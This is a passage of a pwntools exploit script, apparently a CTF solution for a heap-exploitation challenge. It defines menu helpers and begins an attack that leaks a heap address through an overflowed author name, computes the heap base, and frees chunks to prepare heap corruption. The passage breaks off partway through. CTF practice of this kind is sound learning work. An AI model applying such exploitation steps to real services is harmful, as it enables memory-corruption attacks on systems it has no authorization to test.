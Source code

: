 ```

    p.recvuntil(': ')

    p.send(desc)





def author_name(author):

    cmd(5)

    p.recvuntil(': ')

    p.send(author)





libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')



def main():

    # Your exploit script goes here



    # leak heap address

    p.recvuntil('name: ')

    p.sendline('x' * (0x20 - 5) + 'leak:')



    create(0x20, 'tmp a', 0x20, 'b') # 1

    cmd(4)

    p.recvuntil('Author: ')

    p.recvuntil('leak:')

    heap_leak = u64(p.recvline().strip().ljust(8, '\x00'))

    p.info('heap leak @ 0x%x' % heap_leak)

    heap_base = heap_leak - 0x1080



    create(0x20, 'buf 1', 0x20, 'desc buf') # 2

    create(0x20, 'buf 2', 0x20, 'desc buf 2') # 3

    remove(2)

    remove(3)

```